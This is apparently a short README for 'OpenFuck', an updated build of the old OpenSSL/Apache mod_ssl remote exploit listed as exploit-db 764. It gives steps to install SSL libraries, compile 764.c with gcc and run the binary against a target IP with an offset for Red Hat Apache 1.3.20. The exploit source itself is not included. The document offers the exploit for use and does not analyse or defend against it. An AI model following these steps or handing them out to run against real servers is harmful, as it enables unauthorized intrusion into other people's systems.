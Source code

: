 # OpenFuck
This is a tool to exploit apache server

## Usage
This Exploit (https://www.exploit-db.com/exploits/764/) is outdated. Here you can take updated

1. Download 764.c
~~~

~~~
2. Install libssl-dev & libssl1.0dev
~~~
sudo apt install libssl-dev
sudo apt install libssl1.0 dev
~~~

3. Now Compile
~~~
gcc -o OpenFuck 764.c -lcrypto
~~~
4. Run the exploit
~~~
./OpenFuck
~~~
5. See which service you want to exploit. For example if you need to exploit Red Hat Linux, using apache version 1.3.20.

For Example
~~~
./OpenFuck 0*6b [IP Address] -c 50
~~~
